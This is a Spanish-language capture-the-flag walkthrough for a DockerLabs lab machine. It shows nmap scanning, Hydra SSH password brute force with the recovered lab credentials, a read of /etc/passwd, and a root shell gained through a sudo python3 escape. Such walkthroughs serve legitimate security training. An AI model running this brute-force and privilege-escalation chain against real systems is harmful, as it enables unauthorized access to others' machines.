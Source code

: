# Pequenas-mentirosas DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pequenas-mentirosas.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pequenas-mentirosas.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 12:08 EST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

Si entramos en la pagina veremos solamente este mensaje:

```
Pista: Encuentra la clave para A en los archivos.
```

Si hacemos un poco de `fuzzing` no veremos gran cosa por lo que vamos a tirarle fuerza bruta a la palabra `a` con la herramienta `hydra`.

## Escalate user a

### Hydra

```shell
hydra -l a -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 12:14:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 12:14:17
```

Vemos que efectivamente nos encuentra las credenciales, por lo que nos meteremos como dicho usuario.

### SSH

```shell
ssh a@<IP>
```

Metemos como contraseña `secret` y veremos que estamos dentro.

## Escalate user spencer

Si listamos el archivo de `passwd` veremos lo siguiente:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
spencer:x:1000:1000::/home/spencer:/bin/bash
a:x:1001:1001::/home/a:/bin/bash
```

Vemos que hay otro usuario, por lo que probaremos a tirarle de nuevo fuerza bruta.

### Hydra

```shell
hydra -l spencer -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 12:17:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: spencer   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 12:17:47
```

Vemos que encontramos las credenciales del usuario `spencer` por lo que haremos lo siguiente:

```shell
su spencer
```

Metemos como contraseña `password1` y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for spencer on 7ed327dd9786:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 7ed327dd9786:
    (ALL) NOPASSWD: /usr/bin/python3
```

Vemos que podemos ejecutar el binario `python3` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo python3 -c 'import os; os.system("/bin/bash")'
```

Info:

```
root@7ed327dd9786:/home/spencer# whoami
root
```

Y con esto seremos `root`, por lo que ya habremos terminado la maquina.

